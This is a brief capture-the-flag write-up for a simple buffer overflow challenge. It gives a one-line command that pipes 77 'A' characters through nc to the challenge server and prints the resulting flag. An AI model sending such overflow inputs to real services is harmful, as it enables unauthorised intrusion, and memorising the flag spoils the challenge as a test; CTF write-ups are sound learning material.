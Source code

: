 
![Challenge Description](https://myoctocat.com/assets/images/base-octocat.svg)

This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
